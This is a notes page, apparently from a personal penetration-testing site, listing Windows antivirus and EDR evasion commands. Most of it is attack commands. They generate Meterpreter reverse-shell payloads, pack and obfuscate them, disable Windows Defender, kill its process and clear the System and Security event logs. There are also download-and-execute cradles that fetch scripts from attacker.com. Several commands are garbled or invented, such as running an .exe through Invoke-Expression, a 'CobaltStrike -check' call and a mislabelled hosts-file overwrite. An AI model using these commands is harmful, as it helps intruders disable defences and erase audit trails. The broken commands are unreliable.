 ```yaml
---
layout: notes
permalink: /notes/windows/av/
title: Windows AV/EDR Evasion
---
```


# Windows AV/EDR Evasion

## Bypassing Techniques
```powershell
# Generate obfuscated payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -e x86/shikata_ga_nai -f exe -o payload.exe

# Encrypt payload
Invoke-Aes -File payload.exe -Password "secret" -OutFile encrypted.exe

# Launch shellcode via msfconsole
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker> LPORT=4444 -f raw | msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/shell_reverse_tcp; set LHOST <attacker>; set LPORT 4444; exploit"

# Obfuscate with Veil
./Veil.py -p python/meterpreter/rev_tcp -o obfuscated.exe

# Obfuscate PowerShell script
Invoke-Obfuscation -Script payload.ps1
```

## Detection Avoidance
```powershell
# Disable real-time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Clear system event log
wevtutil cl System

# Clear security event log
wevtutil cl Security

# Hide file by renaming
echo "Hidden" > c:\\windows\\system32\\drivers\\etc\\hosts

# Kill AV process
taskkill /IM MsMpEng.exe /F

# Disable Windows Defender via registry
reg add HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

## Tool Obfuscation
```powershell
# Compress with UPX
upx --best payload.exe

# Obfuscate with TheFatRat
./TheFatRat -o obfuscated.exe

# Use Shellter to pack
shellter -f payload.exe

# Obfuscate PowerShell download
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1') | Invoke-Obfuscation

# Create encoded cradle
Invoke-CradleCrafter -Payload "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com')"
```

## Testing Evasion
```powershell
# Test payload execution
Invoke-Expression (Get-Content payload.exe -Raw) | Out-Null

# Check evasion with CobaltStrike
./CobaltStrike -check

# Submit to VirusTotal
curl -X POST --url 'https://www.virustotal.com/vtapi/v2/file/scan' --form "file=@payload.exe"

# Test in sandbox
Test-Sandbox -Payload payload.exe

# Analyze with any.run
any.run -f payload.exe
```

## Tools
- Veil Framework: ```./Veil.py```
- UPX: ```upx --best <file>```
- Invoke-Obfuscation: ```Invoke-Obfuscation -Script script.ps1```
- TheFatRat: ```./fatrat```
- Shellter: ```shellter -f payload.exe```
- Invoke-CradleCrafter: ```Invoke-CradleCrafter -Payload <script>```
- any.run: ```any.run -f <file>```